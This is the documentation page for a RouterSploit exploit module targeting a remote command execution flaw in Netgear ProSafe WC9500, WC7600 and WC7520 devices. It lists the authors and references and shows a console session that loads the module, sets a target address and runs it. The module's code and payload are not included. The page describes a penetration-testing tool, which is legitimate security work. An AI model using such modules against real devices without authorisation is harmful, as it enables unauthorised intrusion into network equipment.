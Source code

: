 # Netgear ProSafe RCE

## Description
Module exploits remote command execution vulnerability in Netgear ProSafeWC9500, WC7600, WC7520 devices. If the target is vulnerable command shell is invoked.

## Authors
* Andrei Costin <andrei[at]firmware.re> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://firmware.re/vulns/acsa-2015-002.php](http://firmware.re/vulns/acsa-2015-002.php)
* [https://www.blackhat.com/docs/asia-16/materials/asia-16-Costin-Automated-Dynamic-Firmware-Analysis-At-Scale-A-Case-Study-On-Embedded-Web-Interfaces.pdf](https://www.blackhat.com/docs/asia-16/materials/asia-16-Costin-Automated-Dynamic-Firmware-Analysis-At-Scale-A-Case-Study-On-Embedded-Web-Interfaces.pdf)

## Vulnerable devices
* Netgear ProSafe WC9500
* Netgear ProSafe WC7600
* Netgear ProSafe WC7520

## Usage
```
rsf > use exploits/netgear/prosafe_rce
rsf (Netgear ProSafe RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (Netgear ProSafe RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Netgear ProSafe RCE) > run
[*] Running module...
```
